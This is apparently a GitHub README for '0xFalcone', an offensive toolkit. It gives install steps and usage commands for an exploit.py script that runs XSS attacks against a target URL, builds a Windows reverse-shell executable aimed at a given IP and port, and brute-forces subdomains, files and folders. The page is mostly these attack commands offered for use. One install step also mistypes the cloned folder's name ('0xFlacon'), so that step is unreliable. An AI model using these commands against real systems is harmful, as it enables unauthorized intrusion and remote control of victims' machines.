 # 0xFalcone
<p align="center">
 <img src="https://user-images.githubusercontent.com/76629405/147866636-66a975ba-8785-455e-9f30-7a7de8b933f7.png" width=250>
</p>
<h3>Installation</h3>
 Install 0xFalcone Tool:
<hr>

```apt install git```

``` git clone https://github.com/hassanalharbi123/0xFalcon ```

``` cd 0xFlacon ```

``` python3 install.py ```
<hr>

<h3>Usage</h3>

``` python3 exploit.py -h ```

![image](https://user-images.githubusercontent.com/76629405/147748640-229c15f4-51ca-42b6-b4b7-343a96b84785.png)

 Example XSS Tool: ``` python3 exploit.py -u xss -T http://example.com -L list.txt -m GET -n username ```
 
 Windows Reverse Shell: ``` python3 exploit.py -u shell -y exe -I 127.0.0.1 -P 1111 -F payloadexe  ```
 
 ![image](https://user-images.githubusercontent.com/76629405/147749039-ac562649-0096-4e82-a004-5071f8e8384f.png)
 
 Subdomains Brute Force: ``` python3 exploit.py -u subdomain -T http://example.com -L list.txt ```
 and you can also Brute Force Attack (Files and Folders), Extract Picture metadata.
